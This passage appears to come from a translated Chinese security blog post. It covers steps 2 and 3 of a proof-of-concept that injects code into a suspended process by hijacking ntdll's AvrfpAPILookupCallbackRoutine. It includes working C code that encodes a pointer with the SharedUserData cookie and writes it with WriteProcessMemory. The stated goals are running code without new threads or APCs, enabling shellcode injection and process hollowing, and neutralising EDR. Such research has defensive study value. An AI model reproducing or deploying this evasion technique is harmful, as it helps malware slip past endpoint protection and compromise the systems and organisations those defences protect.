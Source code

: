 ## 第 2 步：设置回调以调用我们的恶意代码

设置回调的最简单方法是在挂起状态下启动我们自己的进程的第二个副本。由于 ntdll 在每个进程中都位于相同的地址，因此我们只需要在自己的进程中找到回调指针即可。一旦我们的进程启动但处于挂起状态，我们就可以使用 WriteProcessMemory () 来设置指针。

我们还可以将这种技术用于进程空心化、shellcode 注入等，因为它允许我们在不创建或劫持线程或排队 APC 的情况下执行代码。但对于这个 PoC，我们将保持简单。

注意：由于许多 NTDLL 指针都是加密的，因此我们不能只设置指向目标地址的指针。我们必须先加密它。幸运的是，密钥是相同的值，并且存储在所有进程中的同一位置。

```plain
LPVOID encode_system_ptr(LPVOID ptr) {
    // get pointer cookie from SharedUserData!Cookie (0x330)
    ULONG cookie = *(ULONG*)0x7FFE0330;

    // encrypt our pointer so it'll work when written to ntdll
    return (LPVOID)_rotr64(cookie ^ (ULONGLONG)ptr, cookie & 0x3F);
}
```

现在我们可以编写指针并使用 WriteProcessMemory () 将 AvrfpAPILookupCallbacksEnabled 设置为 1：

```plain
// ntdll pointer are encoded using the system pointer cookie located at SharedUserData!Cookie
    LPVOID callback_ptr = encode_system_ptr(&My_LdrGetProcedureAddressCallback);

    // set ntdll!AvrfpAPILookupCallbacksEnabled to TRUE
    uint8_t bool_true = 1;

    // set ntdll!AvrfpAPILookupCallbackRoutine to our encoded callback address
    if (!WriteProcessMemory(pi.hProcess, (LPVOID)(avrfp_address+8), &callback_ptr, sizeof(ULONG_PTR), NULL)) {
        printf("Write 2 failed, error: %d\n", GetLastError());
    }

    if (!WriteProcessMemory(pi.hProcess, (LPVOID)avrfp_address, &bool_true, 1, NULL)) {
        printf("Write 3 failed, error: %d\n", GetLastError());
    }
```

## 第 3 步：执行回调并中和 EDR

一旦我们在挂起的进程上调用 ResumeThread ()，每次调用 LdrpGetProcedureAddress () 时都会执行我们的回调，其中第一个应该是在 LdrpInitializeProcess () 加载 kernelbase.dll 时。

[![](assets/1710901013-f0a79cff642a52c838dc4fcad8f1bbe3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229235150-738d4f1e-d71a-1.png)
